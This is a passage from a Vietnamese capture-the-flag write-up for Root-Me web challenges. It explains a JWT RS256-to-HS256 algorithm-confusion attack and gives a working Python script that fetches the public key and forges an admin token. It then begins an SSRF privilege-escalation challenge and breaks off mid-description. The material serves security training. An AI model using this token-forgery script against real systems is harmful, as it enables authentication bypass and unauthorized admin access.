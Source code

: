 3. vì đã biết public key --> chuyển mã hóa từ RS256 sang HS256

note:
>Nếu chuyển từ RS256 sang HS256 thì signature sẽ được verify bằng public key của HS256. khi đã thay đổi thuật toán mã hoá sang HS256, vì lúc này secret key tương đương với public key mà mình có được, chỉ cần sign signature bằng key mà mình có được, ứng dụng hệ thống sẽ verify trên public key nên sẽ có thể dễ dàng bypass được JWT verification.

script (use [pyjwt](https://github.com/jpadilla/pyjwt)):
```
#!python3
import requests
import jwt

s=requests.session()
url='http://challenge01.root-me.org/web-serveur/ch60/'
key=s.get(url+'key').json()
key="\n".join(key)+"\n"

token=jwt.encode({"username":"admin"}, key=key,algorithm='HS256')

r2=s.post(url+'admin', headers={'Authorization': 'Bearer ' + token.decode()}) 
print(r2.text)
```

![img](./img/10.png)

# SSRF
## Description
Get root privileges on SSRF box CTF All The Day to read the flag in the /root directory !
## Solution

![img](./img/11.png)

Ở đây web app cho mình nhập một url và nó sẽ thực hiện crawl dữ liệu từ cái url về.
